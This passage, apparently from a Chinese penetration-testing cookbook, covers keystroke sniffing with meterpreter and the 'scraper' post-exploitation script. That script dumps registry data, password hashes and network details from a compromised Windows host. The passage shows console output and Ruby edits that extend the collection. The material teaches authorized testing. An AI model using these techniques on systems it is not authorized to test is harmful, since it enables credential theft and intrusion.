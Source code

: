 您可能已经注意到了迁移到不同进程和桌面环境以嗅探按键记录的重要性。通常，人们在直接运行`keyscan`而不查看当前活动桌面时得不到任何结果。这是因为他们渗透的进程可能属于不同的会话或站。因此，在使用按键记录嗅探时，请牢记桌面的概念。

# 使用刮削器 meterpreter 脚本

到目前为止，我们已经了解了几个 meterpreter 命令。在这里，我们将看一下一个重要的 meterpreter 脚本，它可以帮助我们更深入地探索目标。下一章将广泛涵盖 meterpreter 脚本，因此在这里我们将专注于使用脚本。在渗透测试期间，您可能需要大量时间来挖掘目标的信息。因此，对于渗透测试人员来说，拥有有用信息的本地备份可以真正方便，即使目标已经关闭，他们仍然有信息可以使用。它还使与其他测试人员共享信息变得容易。刮削器为我们完成了这项任务。

## 准备工作

使用刮削器 meterpreter 脚本可以挖掘有关受损目标的大量信息，例如注册表信息、密码哈希和网络信息，并将其存储在测试人员的本地机器上。

为了在目标上使用 meterpreter 执行 Ruby 脚本，我们可以使用`run`命令。执行`run scraper -h`命令将列出我们可以与脚本一起传递的各种可用参数。让我们继续分析如何可以在本地下载信息。

## 如何做到这一点...

脚本在执行后会自动完成所有操作。它在`/root/.msf4/logs/scripts/scraper`下创建一个目录，其中保存了所有文件。您可能会在脚本执行过程中注意到错误，这可能是因为某个命令在目标上执行失败（命令行输出已经被缩短以适应）：

```
meterpreter > run scraper
[*] New session on 192.168.56.1:4232...
[*] Gathering basic system information...
[*] Error dumping hashes: Rex::Post::Meterpreter::RequestError priv_passwd_get_sam_hashes: Operation failed: The parameter is incorrect.
[*] Obtaining the entire registry...
[*] Exporting HKCU
[*] Downloading HKCU (C:\Users\DARKLORD\AppData\Local\Temp\UKWKdpIb.reg) 
```

脚本会自动下载并保存信息到目标文件夹。让我们看一下源代码，分析是否可以根据我们的需求进行一些更改。

## 它是如何工作的...

`scraper.rb`的源代码位于`/pentest/exploits/framework3/scripts/meterpreter`下。

Ruby 编程经验可以帮助您编辑脚本以添加您自己的功能。我们可以通过编辑以下行来更改下载位置：

```
logs = ::File.join(Msf::Config.log_directory, 'scripts','scraper', host + "_" + Time.now.strftime("%Y%m%d.%M%S")+sprintf("%.5d",rand(100000)) ) 
```

假设您还想获取可用进程列表的结果，那么您可以简单地在程序的主体中添加以下代码行：

```
::File.open(File.join(logs, "process.txt"), "w") do |fd|
fd.puts(m_exec(client, "tasklist"))
end 
```

通过使用一点点 Ruby 语言和代码重用，您可以轻松修改代码以适应您的需求。

## 还有更多...

让我们了解另一个可以用于从目标机器收集信息的 meterpreter 脚本。

### 使用 winenum.rb

`winenum.rb`是另一个 meterpreter 脚本，可以帮助您收集有关目标的信息并在本地下载。它的工作方式类似于`scraper.rb`。您也可以尝试使用这个脚本，看看它可以提供什么额外的信息。该脚本可以在以下位置找到：

`/pentest/exploits/framework3/scripts/meterpreter/winenum.rb`
